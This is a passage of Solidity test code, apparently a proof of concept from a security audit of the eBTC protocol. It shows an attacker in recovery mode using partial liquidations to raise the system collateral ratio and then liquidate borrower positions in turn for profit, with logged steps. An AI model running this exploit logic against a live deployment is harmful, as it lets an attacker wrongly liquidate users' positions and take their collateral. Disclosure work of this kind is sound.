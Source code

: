 ```
        uint256 _eBTCBalance = eBTCToken.balanceOf(user);
        uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
        console.log("\n");
        console.log("Final user revenue(stETH in wei): ", userRevenue);
    }

    function test_PoC2LiquidationAttackInRecoveryMode() public {
        console.log("--- Attacker will liquidate all CDPs (TCR <= ICR < CCR) and some CDPs (ICR < TCR < CCR) ---");
        console.log("---------------------------- Start Attack ----------------------------");
        uint256 TCR;
        uint256 targetICR;
        uint256 icr0;
        uint256 deltaDebt;

        uint256 price = priceFeedMock.fetchPrice();
        bool isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
        console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);
        isAvailableToLiq = _checkAvailableToLiq(cdpIds[0], price);
        console.log("Is available to liquidate CDP_110ICR? ", isAvailableToLiq);
        if (isAvailableToLiq) {
            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 122%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[1], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
            console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_122ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[1]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_122ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 123%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[2], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[2], price);
            console.log("Is available to liquidate CDP_123ICR? ", isAvailableToLiq);

```